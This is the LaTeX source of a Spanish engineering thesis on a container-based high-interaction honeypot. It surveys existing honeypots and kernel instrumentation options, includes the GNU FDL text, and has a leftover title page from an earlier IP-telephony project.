\documentclass{scrbook}
\usepackage[greek,spanish]{babel}
\usepackage[utf8]{inputenc}
\usepackage[spanish]{varioref}
\usepackage{fancyref}
\usepackage{fancybox}%recuadros
\usepackage[pdftex, breaklinks=false, colorlinks=true, linkcolor=black, anchorcolor=black, urlcolor=blue, citecolor=red, pagebackref=true]{hyperref}
\usepackage{graphicx}%graficos
\usepackage{multicol}
\usepackage{color} %color
\usepackage{xcolor} %mas opciones de color 
\usepackage{colortbl} %colorear tablas
\usepackage{lscape} % hojas apaisadas
\usepackage{cmap} % buscar en el PDF
\usepackage{listings} %para nada, al principio para listados
\usepackage{textcomp}
\usepackage{ucs} 
\usepackage{hyphenat}
\usepackage{fancyvrb} %inclusion de ficheros externo en modo verbatim

\definecolor{gris}{gray}{0.75}
\definecolor{azul}{rgb}{0,0,0.30}
\definecolor{grisclaro}{gray}{0.85}


\newenvironment{ejemplo}% 
  {\VerbatimEnvironment
    \begin{Sbox}
      \begin{minipage}{\linewidth}
       \begin{Verbatim}
  }
  {\end{Verbatim}
 \end{minipage}
\end{Sbox}
\setlength{\fboxsep}{8pt}\colorbox{gris}{\TheSbox}}

\newenvironment{changemargin}[2]{
  \begin{list}{}{%
    \setlength{\topsep}{0pt}%
    \setlength{\leftmargin}{#1}%
    \setlength{\rightmargin}{#2}%
    \setlength{\listparindent}{\parindent}%
    \setlength{\itemindent}{\parindent}%
    \setlength{\parsep}{\parskip}%
  }%
  \item[]
}
{
\end{list}
}




\author{Fabián Sellés Rosa}
\title{
  \begin{center} 
    
\includegraphics[width=0.3\textwidth]{images/logouca} 
  \end{center} 
  \vfill{} 
  \textbf{\huge{Escuela Superior de Ingeniería}} 
  \vfill{} 
  \textit{Ingeniería Informática} 
  \vfill{} 
  Sistema de deteccion de ataques usando \emph{containers} \\ 
  }
\date{}
\makeindex{}
\makeglossary{}



\begin{document}
\newcommand{\parrafo}[1]{\vspace{20pt}\underline{\textbf{#1}}}

\maketitle
%fuente LaTeX inspirado en el fuente de Antonio Garcia Dominguez en su PFC XMLEye
\thispagestyle{empty}


\includegraphics[width=0.2\textwidth]{images/logouca}

\bigskip
\bigskip
\bigskip
  
  \begin{changemargin}{3em}{3em}

    \begin{center}
      {\Huge \textsc{\nohyphens{Escuela Superior de Ingeniería}}}
      
      \bigskip
      \bigskip
      
      {\huge \nohyphens{Ingeniería Técnica en Informática de Sistemas}}
      
      \bigskip
      \bigskip
      \bigskip
      \bigskip
      
      {\LARGE \nohyphens{Análisis de implantación de telefonía IP mediante Software Libre}}
      
      \bigskip
      \bigskip
      \bigskip
      \bigskip
      
    \end{center}
  \end{changemargin}

  \begin{flushleft}
    \Large

    \textsc{Departamento}: \nohyphens{Lenguajes y Sistemas Informáticos.} \\
    \textsc{Director de proyecto}: \nohyphens{Manuel Palomo Duarte.} \\
    \textsc{Autor del Proyecto}: \nohyphens{Fabián Sellés Rosa}. \\
  \end{flushleft}
  
  \bigskip
  \bigskip
  \bigskip
  
  \begin{flushright}
    \large
    Cádiz, \today
    
    Fdo.: Fabián Sellés Rosa
    
  \end{flushright}

\bigskip
\bigskip
\bigskip
\bigskip

\newpage{}

Este documento se halla bajo la licencia FDL (Free Documentation License). Según estipula la
licencia, se muestra aquí el aviso de copyright. Se ha usado la
versión inglesa de la licencia, al ser la única reconocida
oficialmente por la \href{http://www.fsf.org/}{}FSF (Free Software Foundation).

\begin{quote}
  Copyright \copyright  2009  Fabián Sellés Rosa.
  
  Permission is granted to copy, distribute and/or modify this document
  under the terms of the GNU Free Documentation License, Version 1.2
  or any later version published by the Free Software Foundation;
  with no Invariant Sections, no Front-Cover Texts, and no Back-Cover Texts.
  A copy of the license is included in the section entitled "GNU
  Free Documentation License".
\end{quote}
\newpage{}
%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "index"
%%% End: 

\thispagestyle{empty}

\begin{center}
  \begin{flushright}
    a Arturo, mi mejor amigo, también por pagar tantas cenas. \\
    \vspace{0.3cm}
    a Juanca, un buen amigo y un gran profesional aunque no se lo crea. \\
    \vspace{0.3cm}
    a Pablo, un buen amigo, profesional y alguien que aunque es más joven que yo es quién quiero ser de mayor.\\
    \vspace{0.3cm}
    a Ángel, y toda la compañía, por obligarme a descansar de vez en cuando.\\
    \vspace{0.5cm}
    a mi tutor Manuel Palomo y a Rafael Rodriguez, por su apoyo y confianza.\\
    \vspace{0.5cm}
    a los profesores y personas que me enseñaron muchas de las cosas que sé y que debía hacer, y me enseñaron como no ser.\\
    \vspace{0.5cm}
    a Stallman, por iniciar el movimiento del software libre. Y a la comunidad, por llevarlo a la práctica.\\
    \vspace{0.5cm}
    a Knuth, Floyd, Dijkstra , Turing  y tantos otros conocidos y anónimos que crearon este maravilloso mundo en el que me han dejado participar.


  \end{flushright}
\end{center}

% nada de momento

%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "memoria"
%%% End: 

\tableofcontents{}
\listoffigures{}

\chapter{Introducción}

La digitalización de la sociedad no es una idea de futuro. Hace años que funciones críticas para la sociedad
como son las tareas ejercidas en hospitales, entidades financieras o centrales nucleares son gestionadas mediante sistemas informáticos. 
La ubicuidad de dispositivos, ordenadores, móviles, dispositivos electrónicos del \emph{internet of things}
(electrodomésticos, montajes con Arduino o Raspberry Pi...) unido al afianzamiento de la informatización en el ámbito empresarial, ha generado
que dichos sistemas y dispositivos se consideren activos a proteger de atacantes de índole privada o gubernamental.

La seguridad informática ha pasado de ser un área de interés para dichas corporaciones a ser considerada de interés general.
Hasta no hac tanto tiempo, hubiera sido imposible que una noticia sobre un \emph{Ransomware} apareciese en prensa o televisión no especializada y, sin embargo, esto ha ocurrido
al menos una docena de veces este 2017.

El sector de la seguridad informática es especialmente interesante desde el punto de vista del defensor, puesto que
los sistemas de detención y prevención han de cotrarrestar con talento y recursos limitados los ataques de adversarios
que possen muchos más recursos, talento y motivación para triunfar.

Es por ello que se debe asumir que -en dicho escenario- la derrota, es decir la intrusión, tiene un alto factor de éxito y es 
por ello que la gestión de riesgos no se basa en la hipótesis de si el ataque será exitoso o no, sino en que, cuando
este ataque suceda, se aprenda lo máximo posible para evitarlo en otra ocasión y limitar sus efectos.

Así pues, este proyecto se enmarca en el campo de la contrainteligencia y en él se describe un método que permite al defensor conocer cómo algunos atacantes intentan vulnerar sus sistemas. 






%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "index"
%%% End: 

% Memoria
\chapter{Memoria}
\minitoc{}
\section{Objeto}
El objeto de este proyecto es la implementación de un sistema de \emph{Honeypots} utilizando \emph{containers}. 
Las \emph{Honeypots} existen desde hace bastante tiempo, quizá el software más conocido es \emph{Honeyd}, publicado en 2007.

\emph{Honeyd} (véase \cite{honeynet-lowinteraction}) -junto a otros casos- es  una aplicación de las llamadas \emph{honeypots} de baja interacción, puesto que solo exponían al atacante un entorno limitado
no real y limitado frente a las \emph{honeypots} de alta interacción que permiten al atacante interactuar con la aplicación a investigar, con el sistema operativo
y con todo aquello que pueda ser relevante para el diagnóstico; como puede ser el tráfico de red.

Habitualmente, las \emph{honeypots} de alta interacción eran servidores físicos o virtualizados creados exclusivamente para esta tarea, lo que implicaba
una utilización de recursos en términos de CPU, RAM (en definitiva, en coste económico). Además, se ha de considerar que una \emph{honeypot} (por sus características
y seguridad) tiene altas posibilidades de no desplegarse exactamente en el mismo entorno que el resto de aplicaciones de negocio de una organización y, en caso de hacerlo,
la gestión del riesgo y de las medidas de seguridad aumentaran considerablemente.

Por ello, el despliegue y mantenimiento de \emph{honeypots}  de alta interacción es difícil. Desde la introducción de LXC (Linux Containers) en el kernel de Linux que los hizo posible, y
especialmente desde la aparición de Docker, que le dio popularidad y facilito su adopción y explotación.

Un \emph{container} es un método de virtualización para ejecutar múltiples sistemas linux aislados (\emph{containers}) en un servidor que comparte un mismo \emph{kernel} de Linux. Técnicamente, se basa en la utilización
de \emph{cgroups} para limitar y priorizar recursos del sistema (CPU, memoria, I/O...), y de \emph{namespaces}, que limitan la visualización del sistema de los procesos que se ejecutan en el \emph{container}, y que es la técnica que produce el aislamiento. Es importante notar que
frente a otras tecnologías de ``contanerización'' (como \emph{Jails}, \emph{Zones} o, incluso, las máquinas virtuales), los \emph{containers} no tienen entidad propia para el \emph{kernel}, así que un \emph{container} se compone
de una definición de \emph{cgroups} y \emph{namespaces}. 

Se puede considerar un \emph{container} como un \emph{chroot} mejorado o como una máquina virtual ligera (que comparte el mismo \emph{kernel} que el hipervisor). En este sentido
mi interés en \emph{containers} para este proyecto es debido a su eficiente utilización de recursos frente a una máquina virtual y a la facilidad
de crear, mantener y mejorar imágenes de sistema gracias al \emph{tooling} alrededor de imágenes de Docker.

En resumen, el objeto de este proyecto es el de construir una \emph{honeypot} de alta interacción utilizando \emph{containers}.

\section{Alcance}

El presente proyecto tendrá como alcance:
\begin{itemize}
    \item La creación de una sonda que exponga al mundo el servicio que se quiere investigar y que se ejecutará en un \emph{containers}.
    \item La aplicación de las medidas de seguridad de dicha sonda.
    \item El uso de un sistema que guarde las trazas para poder identificar las acciones realizadas en la \emph{honeypot}.
    \item El diseño de un sistema de colección, que recopile las trazas de las sondas y las almacene.
    \item El diseño de un sistema de explotación de datos de dicha colección; en particular de la extracción, transformación y visualización de los mismos.
\end{itemize}

\section{Antecedentes}

% honeypots existentes...
% Kippo, honeyd, honeynet, dionaea 

El objetivo de una \emph{honyepot} es el de aprender y conocer técnicas de los atacantes para poder defenderse aplicando medidas de seguridad.
Debido al coste y complejidad de las \emph{honeypots} de alta interacción, la mayoría de ellas son de baja interacción. A continuación, se examinarán brevemente algunas de ellas:

\begin{enumerate}
    \item[\emph{Kippo}] (\cite{honeynet-kippo}): una \emph{honeypot} de SSH de baja interacción, implementa el protocolo SSH en un servidor en Python
    lo que le permite extraer información del atacante (contraseña, IP, órdenes ejecutadas...), aunque intenta simular un servidor de SSH real
    se puede diagnosticar que el servidor es una \emph{honeypot} simplemente ejecutando órdenes de sistema.
    \item[\emph{Dionaea}] (\cite{honeynet-dionaea}): una \emph{honeypot} de baja interacción que simula varias aplicaciones como servidores TFTP, MySQL, HTTP, Memcache etc y expone sus puertos.
    \item[\emph{honeyd}] (\cite{honeynet-lowinteraction}): una de las primeras \emph{honeypots open source} de baja interacción que puede exponer varios servicios aunque su desarrollo no está activo.
    \item[\emph{Dockerpot}] (\cite{honeynet-dockpot}): una \emph{honeypot} de alta interacción, basada en \emph{containers} Docker que persigue un objetivo similar al de este proyecto.
    Sin embargo, no se expone directamente un \emph{container}, sino que expone un \emph{proxy} (a lo \emph{kippo}) que implementa el protocolo SSH. Pero a diferencia de \emph{kippo}, se abre otra conexión
    a un servidor SSH real que se ejecuta en un \emph{container}. El \emph{proxy} se encarga de levantar o de parar el \emph{container}, pero solo se para el \emph{container} cuando no hay ninguna conexión activa. Y, si el \emph{container} es comprometido, siguiendo este enfoque, no se parará.
    De manera similar a \emph{Kippo}, es fácil descubrir  que se está atacando una \emph{honeypot} de este tipo, ya que la latencia entre que se inicia la comunicación
    y que se pide la contraseña o se deniega el acceso al servidor SSH, es sensiblemente elevada.
\end{enumerate}

Si hay algo en común en todas ellas que motivó la creación de este proyecto es: que o bien son \emph{honeypots} de baja interacción fácilmente reconocibles
y, por lo tanto, carecen de interés para ataques reales; o bien son de alta interacción pero, para reciclar y/o gestionar el servicio expuesto, siempre hay un \emph{proxy} delante
que se encarga de levantar o de parar el \emph{container}.

\section{Requisitos de diseño}
\label{sec:requisitos-de-disenyo}

Para el diseño de la \emph{honeypot} basada en \emph{containers}, los principios que han regido el proyecto son: la funcionalidad, la seguridad y la viabilidad económica. Y a estos principios, se les ha de sumar la búsqueda de cualidades como la flexibilidad, eficiencia, utilidad y seguridad. ``Flexibilidad'' porque la \emph{honeypot} debe ser capaz de exponer cualquier tipo de servicio requerido. ``Eficiencia'' ya que las sondas y el \emph{backend} deben minimizar el número de servidores necesarios para su explotación. ``Utilidad'' porque las \emph{honeypots} deben exportar información útil. Y, por último, ``seguridad''  en tanto que las \emph{honeypots} y el \emph{backend} deben proveer de medidas de contención frente a los atacantes.


\nocite{*}
\nopagebreak
\printbibheading[title={Normas y referencias},heading=subbibnumbered]
\subsection{Disposiciones legales y normas aplicadas}
\subsubsection{Licencia FDL aplicable a ésta memoria}
%---------------------------------------------------------------------


 \begin{center}

       Version 1.2, November 2002


 Copyright \copyright 2000,2001,2002  Free Software Foundation, Inc.
 
 \bigskip
 
     51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
  
 \bigskip
 
 Everyone is permitted to copy and distribute verbatim copies
 of this license document, but changing it is not allowed.
\end{center}


\begin{center}
{\bf\large Preamble}
\end{center}

The purpose of this License is to make a manual, textbook, or other
functional and useful document ``free'' in the sense of freedom: to
assure everyone the effective freedom to copy and redistribute it,
with or without modifying it, either commercially or noncommercially.
Secondarily, this License preserves for the author and publisher a way
to get credit for their work, while not being considered responsible
for modifications made by others.

This License is a kind of ``copyleft'', which means that derivative
works of the document must themselves be free in the same sense.  It
complements the GNU General Public License, which is a copyleft
license designed for free software.

We have designed this License in order to use it for manuals for free
software, because free software needs free documentation: a free
program should come with manuals providing the same freedoms that the
software does.  But this License is not limited to software manuals;
it can be used for any textual work, regardless of subject matter or
whether it is published as a printed book.  We recommend this License
principally for works whose purpose is instruction or reference.


\begin{center}
{\Large\bf 1. APPLICABILITY AND DEFINITIONS}
\end{center}

This License applies to any manual or other work, in any medium, that
contains a notice placed by the copyright holder saying it can be
distributed under the terms of this License.  Such a notice grants a
world-wide, royalty-free license, unlimited in duration, to use that
work under the conditions stated herein.  The \textbf{``Document''}, below,
refers to any such manual or work.  Any member of the public is a
licensee, and is addressed as \textbf{``you''}.  You accept the license if you
copy, modify or distribute the work in a way requiring permission
under copyright law.

A \textbf{``Modified Version''} of the Document means any work containing the
Document or a portion of it, either copied verbatim, or with
modifications and/or translated into another language.

A \textbf{``Secondary Section''} is a named appendix or a front-matter section of
the Document that deals exclusively with the relationship of the
publishers or authors of the Document to the Document's overall subject
(or to related matters) and contains nothing that could fall directly
within that overall subject.  (Thus, if the Document is in part a
textbook of mathematics, a Secondary Section may not explain any
mathematics.)  The relationship could be a matter of historical
connection with the subject or with related matters, or of legal,
commercial, philosophical, ethical or political position regarding
them.

The \textbf{``Invariant Sections''} are certain Secondary Sections whose titles
are designated, as being those of Invariant Sections, in the notice
that says that the Document is released under this License.  If a
section does not fit the above definition of Secondary then it is not
allowed to be designated as Invariant.  The Document may contain zero
Invariant Sections.  If the Document does not identify any Invariant
Sections then there are none.

The \textbf{``Cover Texts''} are certain short passages of text that are listed,
as Front-Cover Texts or Back-Cover Texts, in the notice that says that
the Document is released under this License.  A Front-Cover Text may
be at most 5 words, and a Back-Cover Text may be at most 25 words.

A \textbf{``Transparent''} copy of the Document means a machine-readable copy,
represented in a format whose specification is available to the
general public, that is suitable for revising the document
straightforwardly with generic text editors or (for images composed of
pixels) generic paint programs or (for drawings) some widely available
drawing editor, and that is suitable for input to text formatters or
for automatic translation to a variety of formats suitable for input
to text formatters.  A copy made in an otherwise Transparent file
format whose markup, or absence of markup, has been arranged to thwart
or discourage subsequent modification by readers is not Transparent.
An image format is not Transparent if used for any substantial amount
of text.  A copy that is not ``Transparent'' is called \textbf{``Opaque''}.

Examples of suitable formats for Transparent copies include plain
ASCII without markup, Texinfo input format, LaTeX input format, SGML
or XML using a publicly available DTD, and standard-conforming simple
HTML, PostScript or PDF designed for human modification.  Examples of
transparent image formats include PNG, XCF and JPG.  Opaque formats
include proprietary formats that can be read and edited only by
proprietary word processors, SGML or XML for which the DTD and/or
processing tools are not generally available, and the
machine-generated HTML, PostScript or PDF produced by some word
processors for output purposes only.

The \textbf{``Title Page''} means, for a printed book, the title page itself,
plus such following pages as are needed to hold, legibly, the material
this License requires to appear in the title page.  For works in
formats which do not have any title page as such, ``Title Page'' means
the text near the most prominent appearance of the work's title,
preceding the beginning of the body of the text.

A section \textbf{``Entitled XYZ''} means a named subunit of the Document whose
title either is precisely XYZ or contains XYZ in parentheses following
text that translates XYZ in another language.  (Here XYZ stands for a
specific section name mentioned below, such as \textbf{``Acknowledgements''},
\textbf{``Dedications''}, \textbf{``Endorsements''}, or \textbf{``History''}.)  
To \textbf{``Preserve the Title''}
of such a section when you modify the Document means that it remains a
section ``Entitled XYZ'' according to this definition.

The Document may include Warranty Disclaimers next to the notice which
states that this License applies to the Document.  These Warranty
Disclaimers are considered to be included by reference in this
License, but only as regards disclaiming warranties: any other
implication that these Warranty Disclaimers may have is void and has
no effect on the meaning of this License.


\begin{center}
{\Large\bf 2. VERBATIM COPYING}
\end{center}

You may copy and distribute the Document in any medium, either
commercially or noncommercially, provided that this License, the
copyright notices, and the license notice saying this License applies
to the Document are reproduced in all copies, and that you add no other
conditions whatsoever to those of this License.  You may not use
technical measures to obstruct or control the reading or further
copying of the copies you make or distribute.  However, you may accept
compensation in exchange for copies.  If you distribute a large enough
number of copies you must also follow the conditions in section 3.

You may also lend copies, under the same conditions stated above, and
you may publicly display copies.


\begin{center}
{\Large\bf 3. COPYING IN QUANTITY}
\end{center}


If you publish printed copies (or copies in media that commonly have
printed covers) of the Document, numbering more than 100, and the
Document's license notice requires Cover Texts, you must enclose the
copies in covers that carry, clearly and legibly, all these Cover
Texts: Front-Cover Texts on the front cover, and Back-Cover Texts on
the back cover.  Both covers must also clearly and legibly identify
you as the publisher of these copies.  The front cover must present
the full title with all words of the title equally prominent and
visible.  You may add other material on the covers in addition.
Copying with changes limited to the covers, as long as they preserve
the title of the Document and satisfy these conditions, can be treated
as verbatim copying in other respects.

If the required texts for either cover are too voluminous to fit
legibly, you should put the first ones listed (as many as fit
reasonably) on the actual cover, and continue the rest onto adjacent
pages.

If you publish or distribute Opaque copies of the Document numbering
more than 100, you must either include a machine-readable Transparent
copy along with each Opaque copy, or state in or with each Opaque copy
a computer-network location from which the general network-using
public has access to download using public-standard network protocols
a complete Transparent copy of the Document, free of added material.
If you use the latter option, you must take reasonably prudent steps,
when you begin distribution of Opaque copies in quantity, to ensure
that this Transparent copy will remain thus accessible at the stated
location until at least one year after the last time you distribute an
Opaque copy (directly or through your agents or retailers) of that
edition to the public.

It is requested, but not required, that you contact the authors of the
Document well before redistributing any large number of copies, to give
them a chance to provide you with an updated version of the Document.


\begin{center}
{\Large\bf 4. MODIFICATIONS}
\end{center}

You may copy and distribute a Modified Version of the Document under
the conditions of sections 2 and 3 above, provided that you release
the Modified Version under precisely this License, with the Modified
Version filling the role of the Document, thus licensing distribution
and modification of the Modified Version to whoever possesses a copy
of it.  In addition, you must do these things in the Modified Version:

\begin{itemize}
\item[A.] 
   Use in the Title Page (and on the covers, if any) a title distinct
   from that of the Document, and from those of previous versions
   (which should, if there were any, be listed in the History section
   of the Document).  You may use the same title as a previous version
   if the original publisher of that version gives permission.
   
\item[B.]
   List on the Title Page, as authors, one or more persons or entities
   responsible for authorship of the modifications in the Modified
   Version, together with at least five of the principal authors of the
   Document (all of its principal authors, if it has fewer than five),
   unless they release you from this requirement.
   
\item[C.]
   State on the Title page the name of the publisher of the
   Modified Version, as the publisher.
   
\item[D.]
   Preserve all the copyright notices of the Document.
   
\item[E.]
   Add an appropriate copyright notice for your modifications
   adjacent to the other copyright notices.
   
\item[F.]
   Include, immediately after the copyright notices, a license notice
   giving the public permission to use the Modified Version under the
   terms of this License, in the form shown in the Addendum below.
   
\item[G.]
   Preserve in that license notice the full lists of Invariant Sections
   and required Cover Texts given in the Document's license notice.
   
\item[H.]
   Include an unaltered copy of this License.
   
\item[I.]
   Preserve the section Entitled ``History'', Preserve its Title, and add
   to it an item stating at least the title, year, new authors, and
   publisher of the Modified Version as given on the Title Page.  If
   there is no section Entitled ``History'' in the Document, create one
   stating the title, year, authors, and publisher of the Document as
   given on its Title Page, then add an item describing the Modified
   Version as stated in the previous sentence.
   
\item[J.]
   Preserve the network location, if any, given in the Document for
   public access to a Transparent copy of the Document, and likewise
   the network locations given in the Document for previous versions
   it was based on.  These may be placed in the ``History'' section.
   You may omit a network location for a work that was published at
   least four years before the Document itself, or if the original
   publisher of the version it refers to gives permission.
   
\item[K.]
   For any section Entitled ``Acknowledgements'' or ``Dedications'',
   Preserve the Title of the section, and preserve in the section all
   the substance and tone of each of the contributor acknowledgements
   and/or dedications given therein.
   
\item[L.]
   Preserve all the Invariant Sections of the Document,
   unaltered in their text and in their titles.  Section numbers
   or the equivalent are not considered part of the section titles.
   
\item[M.]
   Delete any section Entitled ``Endorsements''.  Such a section
   may not be included in the Modified Version.
   
\item[N.]
   Do not retitle any existing section to be Entitled ``Endorsements''
   or to conflict in title with any Invariant Section.
   
\item[O.]
   Preserve any Warranty Disclaimers.
\end{itemize}

If the Modified Version includes new front-matter sections or
appendices that qualify as Secondary Sections and contain no material
copied from the Document, you may at your option designate some or all
of these sections as invariant.  To do this, add their titles to the
list of Invariant Sections in the Modified Version's license notice.
These titles must be distinct from any other section titles.

You may add a section Entitled ``Endorsements'', provided it contains
nothing but endorsements of your Modified Version by various
parties--for example, statements of peer review or that the text has
been approved by an organization as the authoritative definition of a
standard.

You may add a passage of up to five words as a Front-Cover Text, and a
passage of up to 25 words as a Back-Cover Text, to the end of the list
of Cover Texts in the Modified Version.  Only one passage of
Front-Cover Text and one of Back-Cover Text may be added by (or
through arrangements made by) any one entity.  If the Document already
includes a cover text for the same cover, previously added by you or
by arrangement made by the same entity you are acting on behalf of,
you may not add another; but you may replace the old one, on explicit
permission from the previous publisher that added the old one.

The author(s) and publisher(s) of the Document do not by this License
give permission to use their names for publicity for or to assert or
imply endorsement of any Modified Version.


\begin{center}
{\Large\bf 5. COMBINING DOCUMENTS}
\end{center}


You may combine the Document with other documents released under this
License, under the terms defined in section 4 above for modified
versions, provided that you include in the combination all of the
Invariant Sections of all of the original documents, unmodified, and
list them all as Invariant Sections of your combined work in its
license notice, and that you preserve all their Warranty Disclaimers.

The combined work need only contain one copy of this License, and
multiple identical Invariant Sections may be replaced with a single
copy.  If there are multiple Invariant Sections with the same name but
different contents, make the title of each such section unique by
adding at the end of it, in parentheses, the name of the original
author or publisher of that section if known, or else a unique number.
Make the same adjustment to the section titles in the list of
Invariant Sections in the license notice of the combined work.

In the combination, you must combine any sections Entitled ``History''
in the various original documents, forming one section Entitled
``History''; likewise combine any sections Entitled ``Acknowledgements'',
and any sections Entitled ``Dedications''.  You must delete all sections
Entitled ``Endorsements''.

\begin{center}
{\Large\bf 6. COLLECTIONS OF DOCUMENTS}
\end{center}

You may make a collection consisting of the Document and other documents
released under this License, and replace the individual copies of this
License in the various documents with a single copy that is included in
the collection, provided that you follow the rules of this License for
verbatim copying of each of the documents in all other respects.

You may extract a single document from such a collection, and distribute
it individually under this License, provided you insert a copy of this
License into the extracted document, and follow this License in all
other respects regarding verbatim copying of that document.


\begin{center}
{\Large\bf 7. AGGREGATION WITH INDEPENDENT WORKS}
\end{center}


A compilation of the Document or its derivatives with other separate
and independent documents or works, in or on a volume of a storage or
distribution medium, is called an ``aggregate'' if the copyright
resulting from the compilation is not used to limit the legal rights
of the compilation's users beyond what the individual works permit.
When the Document is included in an aggregate, this License does not
apply to the other works in the aggregate which are not themselves
derivative works of the Document.

If the Cover Text requirement of section 3 is applicable to these
copies of the Document, then if the Document is less than one half of
the entire aggregate, the Document's Cover Texts may be placed on
covers that bracket the Document within the aggregate, or the
electronic equivalent of covers if the Document is in electronic form.
Otherwise they must appear on printed covers that bracket the whole
aggregate.


\begin{center}
{\Large\bf 8. TRANSLATION}
\end{center}


Translation is considered a kind of modification, so you may
distribute translations of the Document under the terms of section 4.
Replacing Invariant Sections with translations requires special
permission from their copyright holders, but you may include
translations of some or all Invariant Sections in addition to the
original versions of these Invariant Sections.  You may include a
translation of this License, and all the license notices in the
Document, and any Warranty Disclaimers, provided that you also include
the original English version of this License and the original versions
of those notices and disclaimers.  In case of a disagreement between
the translation and the original version of this License or a notice
or disclaimer, the original version will prevail.

If a section in the Document is Entitled ``Acknowledgements'',
``Dedications'', or ``History'', the requirement (section 4) to Preserve
its Title (section 1) will typically require changing the actual
title.


\begin{center}
{\Large\bf 9. TERMINATION}
\end{center}


You may not copy, modify, sublicense, or distribute the Document except
as expressly provided for under this License.  Any other attempt to
copy, modify, sublicense or distribute the Document is void, and will
automatically terminate your rights under this License.  However,
parties who have received copies, or rights, from you under this
License will not have their licenses terminated so long as such
parties remain in full compliance.


\begin{center}
{\Large\bf 10. FUTURE REVISIONS OF THIS LICENSE}
\end{center}


The Free Software Foundation may publish new, revised versions
of the GNU Free Documentation License from time to time.  Such new
versions will be similar in spirit to the present version, but may
differ in detail to address new problems or concerns.  See
http://www.gnu.org/copyleft/.

Each version of the License is given a distinguishing version number.
If the Document specifies that a particular numbered version of this
License ``or any later version'' applies to it, you have the option of
following the terms and conditions either of that specified version or
of any later version that has been published (not as a draft) by the
Free Software Foundation.  If the Document does not specify a version
number of this License, you may choose any version ever published (not
as a draft) by the Free Software Foundation.

%---------------------------------------------------------------------

%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "main"
%%% End: 

\subsubsection{Licencia Apache 2.0 aplicable a todo el código fuente}
Todo el codigo fuente listado en ésta memoria o en soporte digital anexo se licencia bajo Apache License 2.0, una licencia libre sin \emph{copyleft} compatible con la GPL.
Se puede consultar los terminos de la licencia en la página de Apache \url{http://www.apache.org/licenses/LICENSE-2.0}

\subsection{Bibliografia}
\printbibliography[title={Referencias},heading=none]
\nopagebreak
\section{Definiciones y abreviaturas}

\chapter{Análisis de soluciones}
\label{chapter:analisis-de-soluciones}
\minitoc{}


\section{Análisis de soluciones para la sonda}
\label{sec:analisis-sonda}


Lo más relevante de la sonda es la capacidad de extraer información de ella a nivel de instrumentación. Cada proceso (y cabe recordar que un \emph{container} en Linux es un proceso dentro de un \emph{namespace} con un \emph{cgroup} asociado) es gestionado, controlado
y auditado por el \emph{kernel}.

Por ello, es interesante explorar si a través de alguna interfaz del \emph{kernel} es posible instrumentar nuestra \emph{honeypot}. A la hora de exponer nuestro servicio, se hará utilizando
un \emph{container}. Existen diversas tecnologías para utilizar \emph{containers} en Linux. Citándolos de más a menos antigüedad, se puede utilizar LXC, \emph{Docker}, \emph{LXD} o \emph{rkt}.

\emph{LXC}, \emph{LXD} y \emph{rkt} comparten que su objetivo es el de proporcionar una \emph{lightweight-VM}; un entorno donde se pueden lanzar varios procesos y aplicaciones a la VM
pero sin la necesidad de cargar un \emph{kernel} independiente y los costes extra que una VM supone (y perdiendo las garantías de aislamiento que también provee).

\emph{Docker}, sin embargo, promueve una filosofía en la que cada \emph{container} debería albergar idealmente un solo proceso o aplicación.

Hay varias diferencias entre estas alternativas: \emph{LXC} y \emph{LXD} proveen de herramientas para crear un \emph{container} ``manualmente'' entrando en el \emph{container} y lanzando los procesos. Por su parte, \emph{Docker} y \emph{rkt}
lanzan \emph{containers} utilizando imágenes. Una imagen no es más que una descripción en un lenguaje acerca de qué contendrá el \emph{container}, órdenes a lanzar para construir el \emph{container} y el punto de entrada (la orden que se lanzará al lanzar el \emph{container}) del mismo.

Además, los \emph{containers} construidos con \emph{Docker} y \emph{rkt} son inmutables. Cada imgen define varias capas de almacenamiento (véase \cite{docker-storage}) que se van apilando
para construir el sistema de archivos y como última capa se añade una con permisos de lectura/escritura para permitir el almacenamiento temporal necesario para lanzar
la mayoría de órdenes.

Aunque cualquiera de las tecnologías de ``containerización'' explicadas previamente podrían ser utilizadas para el fin y objetivo propuesto, \emph{Docker} tiene una amplia acogida como la herramienta de ``containerización''
y hay muchísimas herramientas disponibles que, al final, suponen la utilización de \emph{Docker}. Por ello, se escoge esta tecnología para construir nuestros \emph{container}.

\subsection{Instrumentación de los \emph{containers}}
\label{subsec:instrumentacion-containers}

Cuando se habla de instrumentación de procesos en Linux, generalmente, lo que se persigue es obtener información de:
\begin{enumerate}
    \item[\emph{System calls}]: peticiones que realiza nuestro proceso al \emph{kernel} como leer un fichero o abrir una conexión.
    \item[\emph{kernel function calls}]: funciones que se reclamarán en el \emph{kernel} para satisfacer una \emph{syscall}.
    \item[\emph{eventos}]: eventos que se han definido en \emph{userspace} o dentro del \emph{kernel}.
\end{enumerate}

Para obtener esta información hay diversas fuentes dentro del \emph{kernel}:

\begin{enumerate}
    \item[\emph{kprobes}]: el \emph{kernel} modifica las instrucciones en ensamblador en tiempo de ejecución para activar la instrumentación. Si se trata
    de \emph{kprobes}, las funciones a instrumentar son parte del \emph{kernel}. 
    \item[\emph{uprobes}]: similar a \emph{kprobes} pero para funciones en espacio de usuario como \emph{malloc}.
    \item[\emph{tracepoints}]: a diferencia de un \emph{kprobe} o \emph{uprobe}, un \emph{tracepoint} se define en el código fuente y se genera en tiempo de compilación, pudiendo ser activados en tiempo de ejecución cuando se requiera y extrayendo la información de ese \emph{tracepoint}.
    \item[\emph{ptrace}]: a través de la \emph{syscall ptrace (process trace)}, se le otorga a un proceso la capacidad de inspeccionar y modificar el comportamiento del proceso instrumentado. 
\end{enumerate}

Lo que se persigue en este proyecto es intentar obtener la máxima información modificando lo mínimo posible la aplicación instrumentada. Sería posible
reescribir el servicio expuesto implementando \emph{tracepoints} para obtener información precisa, pero eso provocaría que la aplicación expuesta no fuese exactamente la misma que se utiliza
en otros entornos productivos (por lo que la información que proveería podría ser inútil) o que se aumentase la superficie de ataque, ya que se estaría
generando una versión nueva del \emph{software} que, quizá, no está pasando por los mismos controles que el \emph{software} original y, en cualquier caso, la modificación de todas las aplicaciones
que interesa analizar, supone una inversión de esfuerzo nada trivial.

No es interesante para este proyecto la información relativa al rendimiento pero sí lo es la relativa al comportamiento de nuestra aplicación. Por lo tanto,
utilidades como \emph{perf} no serán útiles y, como posibilidades válidas, se expondrán a continuación las alternativas.

\subsection{Obtención de la información del \emph{kernel}: \emph{Auditd}}
